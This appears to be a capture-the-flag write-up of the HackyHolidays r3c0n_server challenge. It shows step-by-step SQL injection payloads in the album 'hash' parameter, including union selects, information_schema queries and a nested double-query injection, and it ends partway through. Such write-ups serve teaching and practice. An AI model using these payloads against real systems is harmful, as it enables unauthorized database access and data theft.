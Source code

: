 https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/

Initial running dirsearch found the api endpoint https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api/
But when we try to make any request to https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api/* , got the response saying

"This endpoint cannot be visited from this IP address"

I thought it might be accessible by adding some custom headers but nothing worked.

And then looked into photo album,it didn't take long to identify that the  hash parameter is vulnerable to sql injection.
```
Identifying Sql injection

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol'            Response  404

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k--+-     Response 200

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k' order by  4--+-  Reponse 404

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k ' order+by 3--+-   Response 200

Getting vulnerable column

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' union+select 1,2,3--+-     Response 200 and 3rd column is printed
(Please note that we need to remove original hash value to see vulnerbale column)

Trying to extract table name using the query

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' union+select 1,2,table_name+from information_schema.tables where table_schema=database()--+-
```

But it didn't work. After trying to bypass with various ways, something came up with Double Query injcetion.
```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' union+select "1'","2","3"--+-

Putting ' in the first column and something strange happend and fix the query by comment(--+-) and got the normal response back.

>>https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' union+select "1'--+-","2","3"--+-
```

Now we can confirm double query injection is possible here. Let's move further.
```
>>https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' union+select "1' order by 4--+-","2","3"--+-    ERROR

>>https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' union+select "1' order by 3--+-","2","3"--+-     Normal Reponse

>>https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' union+select "1' union select \"1\",\"2\",\"3\"--+-","2","3"--+-

{"image":"r3c0n_server_4fdk59\/uploads\/3","auth":"fea7507478aa8225c022527b1763fb33"}
```
Upon executing above query, we got the response which vulnerable column is reflecting image request data.
```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' union+select "1' union select \"1\",\"2\",database()--+-","2","3"--+-

```